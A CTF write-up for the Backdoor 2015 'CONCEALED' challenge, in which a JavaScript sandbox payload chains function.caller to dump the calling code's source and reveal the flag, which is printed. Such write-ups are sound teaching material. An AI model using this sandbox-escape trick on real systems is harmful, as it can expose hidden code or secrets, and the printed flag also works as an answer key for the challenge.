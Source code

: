```yaml
---
layout: post
title: "Backdoor CTF 2015 - CONCEALED Writeup"
date: 2015-04-03 02:33:31 +0430
comments: false
categories: ctf backdoor exploit javascript sandbox
---
```


**Backdoor 2015 CONCEALED Writeup**  
**Point = 100**  
**Category = Exploit**  

> All paths have been concealed. Get the hidden flag: nc hack.bckdr.in 8005. Submit sha-256 of the flag

```
$ nc hack.bckdr.in 8005
######################################
####           CONCEAL            ####
######################################

Welcome to CONCEAL
You have access to object named sandboxed and its functions 
Rest everything is sandboxed, don't be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is hidden somewhere in the code. 
Get the flag :D!

home@jail:$ 

```

First of all as banner says we should use all our payload as a function like :
<!--more-->
```
home@jail:$ function exploit() { return "GeeksSpeak"; }
GeeksSpeak
home@jail:$ 
```

After some diging into the the challenge, trying to break the jail and so on, reading banner carefully indicates that the flag is in the code so i should read codes but how?

In javascript we can use arguments.caller to see which function calls our current function so i made up an example and tested it:

```
home@jail:$ function exploit() { return exploit.caller.toString(); }
function () {return (function exploit() { return exploit.caller.toString(); })()}
home@jail:$ function exploit() { return (exploit.caller).caller.toString(); }
function () {
        if (!(this instanceof Script)) {
          throw new TypeError('invalid call to ' + f);
        }
        return ns[f].apply(ns, arguments);
      }
home@jail:$ 

```

this proved my idea, so i used caller repeatedly and finally got the flag as bellow:

```
home@jail:$ function exploit() { return ((((((((exploit.caller).caller).caller).caller).caller).caller).caller).caller).caller.toString(); }
function (err, line) {

    // flag : 50_y0u_f1n4lly_f0und_17

    if (err && wait === false) {
      return callback(err);
    }

    var against = {},
        numericInput,
        isValid;

    if (line !== '') {
      if (schema.properties[propName]) 
      [..stripped..]
```

and sha256 of the `50_y0u_f1n4lly_f0und_17` gives us another 150pts.

HAMIDx9
